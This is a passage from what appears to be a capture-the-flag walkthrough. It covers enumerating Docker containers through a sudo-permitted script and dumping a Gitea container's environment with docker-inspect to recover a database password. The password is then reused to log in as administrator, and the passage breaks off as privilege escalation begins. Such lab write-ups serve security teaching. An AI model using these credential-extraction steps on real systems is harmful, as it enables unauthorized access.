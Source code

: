 It seems that I can obtain certain info of the active containers on the machine. So I'll do some enumeration:

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps

CONTAINER ID   IMAGE                COMMAND                  CREATED       STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   2 years ago   Up 42 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   2 years ago   Up 42 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

So there are two containers, one associated to the gitea service and the other one is a Mysql database. I will get info of both:

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect

Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

So I can use the following [Docker documentation](https://docs.docker.com/reference/cli/docker/inspect/) to output what I want from the containers:

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

[redacted]
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh"
[redacted]
```

![](Pasted%20image%2020250518155018.png)

> Credentials found: `administrator:yuiu1hoiu4i5ho1uh`

Now I'll login back inside gitea as `administrator`:

![](Pasted%20image%2020250518155229.png)

## Privilege Escalation

I noted a new previously hidden repository called `scripts`, so I checked its content:

![](Pasted%20image%2020250518155316.png)

I'll check the content of `system-checkup.py`:

```bash
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

```